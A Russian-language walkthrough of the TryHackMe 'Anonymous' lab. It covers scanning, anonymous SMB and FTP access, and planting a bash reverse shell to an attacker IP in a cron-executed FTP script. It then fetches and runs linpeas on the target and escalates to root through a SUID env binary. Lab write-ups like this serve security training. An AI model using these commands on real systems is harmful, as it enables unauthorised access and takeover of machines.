 https://tryhackme.com/room/anonymous

> [!IP]
> 10.10.43.173

```
nmap -sS 10.10.43.173 -T4 -p- -vv
```


```
Discovered open port 139/tcp on 10.10.43.173
Discovered open port 445/tcp on 10.10.43.173
Discovered open port 22/tcp on 10.10.43.173
Discovered open port 21/tcp on 10.10.43.173
```

```
sudo nmap 10.10.43.173 -vv -p139,445,22,21 -sC -sV -A 
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419222118.png)



```
enum4linux 10.10.43.173
```
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223913.png)
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223925.png)


```
smbclient //10.10.43.173/pics -N
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/202504192228445.png)

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223102.png)

Явно что то связанное со стенографией....
```
ftp 10.10.43.173
```
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419224357.png)
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419224549.png)

В логах ничего интересного. А то что анонимный вход нужно выключить он прав).Возможно скрипт выполняется заданием cron.
```
echo "#\!/bin/bash" > clean.sh
echo "bash -i &>/dev/tcp/10.11.134.170/1338 <&1" >> clean.sh
```

```
ftp 10.10.43.173
Name (10.10.43.173:kali): ANONYMOUS
ftp> cd scripts
ftp> ls
ftp> rename clean.sh clear_1.sh
ftp> put clean.sh 
ftp> chmod +x clean.sh
550 Permission denied.
```

Оказалось что я не достаточно прав, так что изменяю на лету ((
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419230618.png)
Получилось через lftp, edit clean.sh реверс прилетел буквально через пару минут
# Флаг User
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419230745.png)

# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231114.png)
SUID
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231422.png)

Привет контейнер?
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231524.png)

https://gtfobins.github.io/
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231625.png)

```
namelessone@anonymous:/tmp$ env /bin/bash -p
env /bin/bash -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
# Flag2
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419232631.png)
